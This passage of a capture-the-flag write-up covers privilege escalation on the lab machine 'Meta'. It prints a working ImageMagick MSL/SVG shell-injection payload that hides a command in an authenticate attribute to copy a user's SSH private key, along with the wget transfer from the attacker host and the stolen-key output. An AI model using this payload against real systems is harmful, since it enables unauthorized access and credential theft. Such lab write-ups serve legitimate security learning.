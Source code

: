 We found a running script with imagemagick in it and mogrify. 

![pspy64](pspy64.png)
_pspy64_

Then the following is executed, where we see that the root user empties the directory `/var/www/dev01.artcorp.htb/convert_images/`{: .filepath}

![pspy64](place.png)
_pspy64_

Searching for ways to exploit those processes that were running on the background which seemed to be in crontab, I found the following:

[Shell injection](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)

Introducing this payload in the place where it is executed would be a matter of waiting.

```
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa)> /dev/shm/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
{: file="poc.svg"}

We downloaded the image by setting up a web server with python on our host and using wget on the victim machine pointing to the file.

```console
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ wget 10.10.16.10:8000/poc.svg
--2022-06-04 06:34:06--  http://10.10.16.10:8000/poc.svg
Connecting to 10.10.16.10:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 428 [image/svg+xml]
Saving to: 'poc.svg'

poc.svg             100%[===================>]     428  --.-KB/s    in 0s      

2022-06-04 06:34:07 (44.8 MB/s) - 'poc.svg' saved [428/428]
```

After a while we will have the file with the output of the command carried out, in this case we have the content of the user's id_rsa.

```console
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/0wned
cat /dev/shm/0wned
-----BEGIN OPENSSH PRIVATE KEY----- 
b3BlbnNzaC1...XJvb3RAbWV0YQE= 
-----END OPENSSH PRIVATE KEY-----
```
